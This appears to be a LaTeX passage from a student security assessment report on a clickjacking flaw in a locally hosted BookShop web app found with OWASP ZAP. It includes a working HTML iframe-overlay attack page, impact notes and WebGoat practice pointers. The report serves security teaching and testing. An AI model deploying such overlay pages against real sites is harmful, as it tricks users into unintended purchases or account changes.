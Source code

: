 \documentclass[]{UCD_CS_FYP_Report}
\begin{document}
\textbf{Exploitation}:
\begin{itemize}
    \item An attacker can create a malicious website that embeds the BookShop application in a transparent iframe
    \item The malicious site overlays invisible buttons or forms over the legitimate application interface
    \item Example Attack Vector (Intercepted in ZAP):
    \begin{verbatim}
    <!DOCTYPE html>
    <html>
    <head><title>Malicious Site</title></head>
    <body>
        <div style="position: relative; opacity: 0.1;">
            <iframe src="http://localhost:3000" 
                    style="width: 100%; height: 100vh; border: none;">
            </iframe>
        </div>
        <button style="position: absolute; top: 50%; left: 50%; 
                      z-index: 1000; opacity: 0.9;">
            Click here to win!
        </button>
    </body>
    </html>
    \end{verbatim}
    \item Users believe they're clicking on legitimate buttons but actually perform actions on the embedded BookShop application
    \item ZAP's Active Scan detected the missing anti-clickjacking headers in HTTP responses
\end{itemize}

\textbf{Impact}:
\begin{itemize}
    \item Enables clickjacking attacks where users perform unintended actions
    \item Can lead to unauthorized purchases, account modifications, or data exposure
    \item Compromises user trust and application integrity
    \item May result in financial losses or privacy violations
\end{itemize}

\textbf{WebGoat Practice}:
\begin{itemize}
    \item Replicate in WebGoat's \textbf{Client Side} > \textbf{Cross-Site Scripting} lessons
    \item Practice iframe-based attacks in \textbf{Cross-Site Request Forgery (CSRF)} modules
    \item Use ZAP to test frame-ancestors and X-Frame-Options headers
    \item Practice creating malicious iframe overlays in WebGoat's clickjacking exercises
    \item Test browser security policies using developer tools
\end{itemize}
\end{document}
